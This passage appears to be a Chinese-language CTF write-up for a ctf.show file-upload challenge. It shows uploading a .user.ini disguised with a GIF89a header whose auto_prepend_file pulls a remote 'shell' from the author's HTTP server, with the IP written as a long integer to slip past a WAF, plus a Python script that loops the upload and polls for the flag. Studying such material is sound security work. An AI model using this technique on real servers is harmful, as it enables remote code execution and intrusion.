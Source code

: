 我们把payload写在服务器上，然后起一个http服务

![image-20250127182913096](../assets/image-20250127182913096.png)

记住，文件包含时要把ip转换成长整型（.被waf了）

```
GIF89a
auto_prepend_file=http://长整型ip:7777/s
```

![image-20250127183049980](../assets/image-20250127183049980.png)

传.user.ini

接着搓一个发包脚本

```python
import requests

while True:
    burp0_url = "http://3de6e682-59e3-489c-8e72-2b74e3db5058.challenge.ctf.show/"
    burp1_url = "http://3de6e682-59e3-489c-8e72-2b74e3db5058.challenge.ctf.show/upload/"
    burp0_headers = {"Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "zh-CN,zh;q=0.9", "Sec-Ch-Ua": "\"Not?A_Brand\";v=\"99\", \"Chromium\";v=\"130\"", "Sec-Ch-Ua-Mobile": "?0", "X-Requested-With": "XMLHttpRequest", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36", "Accept": "application/json, text/javascript, */*; q=0.01", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryBcDoqZWhQP52WEA6", "Origin": "https://938b9a73-97ad-4b15-81d8-0101678e16f8.challenge.ctf.show", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Dest": "empty", "Referer": "https://938b9a73-97ad-4b15-81d8-0101678e16f8.challenge.ctf.show/", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=1, i", "Connection": "keep-alive"}
    burp0_data = "------WebKitFormBoundaryBcDoqZWhQP52WEA6\r\nContent-Disposition: form-data; name=\"file\"; filename=\".user.ini\"\r\nContent-Type: image/png\r\n\r\nGIF89a\r\nauto_prepend_file=http://长整型ip:7777/shell\r\n------WebKitFormBoundaryBcDoqZWhQP52WEA6--\r\n"
    log = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    log1 = requests.get(burp1_url)
    print(log.status_code)
    print('\n')
    print(log1.text)
    if "ctfshow" in log1.text:
        print('getflag')
```